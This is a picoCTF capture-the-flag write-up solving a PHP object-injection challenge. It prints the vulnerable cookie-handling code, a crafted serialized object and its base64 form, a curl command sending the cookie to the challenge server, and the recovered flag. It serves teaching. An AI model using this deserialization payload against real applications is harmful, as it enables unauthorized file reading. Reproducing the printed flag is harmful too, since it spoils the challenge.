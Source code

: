 # Overview 
Category: [Web Exploitation]()

AUTHOR: MADSTACKS

# Description
Try to recover the flag stored on this website http://mercury.picoctf.net:42449/

# Solution
- Going to robots.txt shows that admin.phps is disallowed 
<img src="https://i.imgur.com/5SCkbac.png">

=>  This indicates that the phps extension is enabled within the php configuration for this webserver
- We try access index.phps :
<img src="https://i.imgur.com/8iekRpF.png">

- The above php code points us in the direction of authentication.phps
<img src="https://i.imgur.com/2OSnjQl.png">

- View cookie.phps
```php
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
- Focus : ```$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])))```

=> I think of the unserialize vulnerability

Read [it](https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection#:~:text=The%20vulnerability%20occurs%20when%20user-supplied%20input%20is%20not,PHP%20object%20%28s%29%20injection%20into%20the%20application%20scope)
- Based on the code:
```
class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}
```
=> The php serialized access_log object looks like this: 
```
O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}
```
(base hint : The flag is at ../flag)
- Encode base64
```
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```
- I  access the authentication.php file with the correct cookie set: 
```
curl http://mercury.picoctf.net:42449/authentication.php --cookie "login=TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9"
```
- Results:
```
Deserialization error. picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}
```

> Flag :**picoCTF{th15_vu1n_1s_5up3r_53r1ous_y4ll_9d0864e2}**